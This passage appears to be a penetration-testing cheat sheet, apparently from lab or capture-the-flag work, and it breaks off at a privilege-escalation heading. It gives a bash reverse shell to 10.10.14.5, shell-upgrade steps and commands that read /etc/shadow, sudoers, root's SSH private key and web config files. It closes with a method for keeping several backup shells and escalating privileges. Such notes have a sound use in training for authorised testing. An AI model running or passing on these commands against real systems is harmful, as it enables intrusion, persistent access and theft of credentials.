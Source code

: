 ## Create nested reverse shell for stability
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/5678 0>&1'
```

## Upgrade shell to fully interactive TTY
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
# Press Ctrl-Z
stty raw -echo; fg
# Press Enter twice
stty rows 38 cols 116
```

## Search for readable sensitive files
```bash
cat /etc/shadow 2>/dev/null
cat /etc/sudoers 2>/dev/null
cat /root/.ssh/id_rsa 2>/dev/null
```

## Check common application config locations
```bash
cat /var/www/html/config.php 2>/dev/null
ls -la /etc/apache2/sites-enabled/
ls -la /etc/nginx/sites-enabled/
find /opt -name "*.conf" 2>/dev/null
```

---

## Methodology

### Initial Access Strategy
Always create backup shells immediately after initial access:
1. Get initial shell via web exploit
2. Immediately create second shell via different method
3. Upgrade shells and maintain multiple access points

### Enumeration Priority
1. Run automated tools first (LinPEAS, LinEnum)
2. Check sudo permissions
3. Search for SUID/SGID binaries
4. Hunt for credentials in configs and history
5. Check for writable files and directories
6. Enumerate running processes and cron jobs

### Common Privilege Escalation Vectors
